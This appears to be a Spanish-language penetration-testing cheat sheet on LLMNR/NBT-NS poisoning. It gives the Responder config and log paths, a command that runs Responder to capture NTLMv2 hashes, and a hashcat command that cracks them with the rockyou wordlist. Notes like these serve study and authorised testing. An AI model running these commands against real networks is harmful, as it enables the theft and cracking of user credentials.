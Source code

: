 #mitm #responder
## LLMNR/NBT-NS Possoning
[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN) (NBT-NS) son métodos alternativos de resolución de nombres que pueden ser usados cuando falla el DNS. Cualquier host puede responder utilizando alguno de los protocolos mencionados. 
## Linux - `responder`
### Configuración - `responder.conf`
Se pueden configurar los protocolos sobre los que actúar. Por defecto alojado en: 
```
/usr/share/responder
```
### Logs
Además de mostrar por pantalla los logs, responder guarda en un log la información recopilada: 
```
/usr/share/responder/logs
```
### Responder con configuración por defecto
```bash
sudo responder -I ens224
```
### Craquear NTMLv2 con hashcat
El hash que se captura en el paso anterior es un hash NTMLv2 ( [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)) 
```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

